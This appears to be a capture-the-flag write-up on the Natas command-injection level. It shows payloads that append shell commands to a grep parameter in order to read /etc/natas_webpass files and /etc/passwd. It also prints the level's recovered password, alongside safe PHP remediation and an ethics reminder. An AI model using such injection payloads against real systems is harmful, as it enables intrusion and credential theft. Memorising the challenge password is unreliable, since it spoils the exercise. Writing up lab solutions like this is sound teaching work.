 # 🔐 Natas Level: Natas8--->Natas9



### 📂 Execution Process 

👉 
- write this command in the input area
```
?needle=whatever;cat /etc/natas_webpass/natas10
```
<img width="1469" height="879" alt="Screenshot 2025-09-30 at 10 52 25 AM" src="https://github.com/user-attachments/assets/3a28d0e1-87f9-4d1d-9a07-9af14fd51829" />

### 📄 Password found:
👉 
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

### NOTES


1) Short summary (one line)
This web app takes a word from the user and directly runs a shell search command with that word. Because the input is used as part of a shell command without protection, an attacker can add extra shell commands and make the server run them. This is called command injection.

2) What the server code does (explained simply)
- The server reads the request parameter named "needle".
- If "needle" is not empty, the server runs this command:
  grep -i <needle> dictionary.txt
- The output of grep is shown to the user.

3) Why this is dangerous (simple)
- User input is placed directly into a shell command.
- If the user types special characters like ; or && or $( ), they can add new commands.
- Example danger: the attacker can read files the webserver can read (like the natas password file).

4) Example of safe vs unsafe flow (table)

| Step | Unsafe (what happens) | Safe (what should happen) |
|------|-----------------------|---------------------------|
| Input | Put user text directly into shell | Treat user text as plain text, never as shell code |
| Action | Server runs: grep -i usertext dictionary.txt | Server searches file using PHP or a safe library function |
| Risk | Attacker appends ;cat /etc/passwd and server runs it | No extra commands can run — input is treated only as search text |

5) Common payload examples to try in Natas (replace natasX with your level)
- Basic append with semicolon:
  ?needle=foo;cat /etc/natas_webpass/natasX
- Using command substitution:
  ?needle=foo$(cat /etc/natas_webpass/natasX)
- URL encoded semicolon:
  ?needle=foo%3Bcat%20/etc/natas_webpass/natasX
- If semicolon blocked, try AND:
  ?needle=foo && cat /etc/natas_webpass/natasX
- Try showing directory:
  ?needle=foo;ls -la /etc/natas_webpass

6) How these payloads work (very simple)
- The server runs: grep -i <needle> dictionary.txt
- If needle = foo;cat /etc/natas_webpass/natasX
  the shell sees: grep -i foo;cat /etc/natas_webpass/natasX dictionary.txt
- The shell runs grep first, then runs cat and prints the password.

7) How to check what characters might be blocked
- Try small tests:
  ?needle=foo;echo HACK
  ?needle=foo%3Becho%20HACK
- If you see HACK in the response, semicolon injection works.

8) Safe way server should do search (PHP example)
- Do NOT run shell commands with user input.
- Instead read the file and search inside PHP:
  $key = isset($_REQUEST['needle']) ? $_REQUEST['needle'] : '';
  if ($key !== '') {
      $lines = file('dictionary.txt', FILE_IGNORE_NEW_LINES | FILE_SKIP_EMPTY_LINES);
      foreach ($lines as $line) {
          if (stripos($line, $key) !== false) {
              echo htmlspecialchars($line) . "<br>\n";
          }
      }
  }
- This avoids running shell and prevents injection.

9) If the server must run a shell command (not recommended)
- Always escape the user argument before sending to shell:
  $safe = escapeshellarg($key);
  passthru("grep -i $safe dictionary.txt");
- escapeshellarg() puts the input inside quotes and escapes dangerous chars.

10) Quick checklist while solving Natas (for each level)
- Read page source and look for forms or parameters (needle).
- Try basic payloads (semicolon, &&, |, $( ), backticks).
- URL-encode payloads if needed (%3B for ;, %20 for space).
- Try reading /etc/natas_webpass/natasX (replace X).
- If output not visible, try printing simple things first (echo tests).
- Keep notes of what characters are filtered or transformed.

11) Short tips (very practical)
- Always test small: start with ?needle=foo;echo 123
- If output appears, replace echo with cat file.
- Use URL encoding when typing in browser can break characters.
- Remember: this is learning — only try on CTF or systems you own/are allowed to test.

12) One-line reminder about ethics
Only use these techniques on challenge servers (like Natas), your own machines, or with explicit permission. Never use on real websites you don’t own.

End.
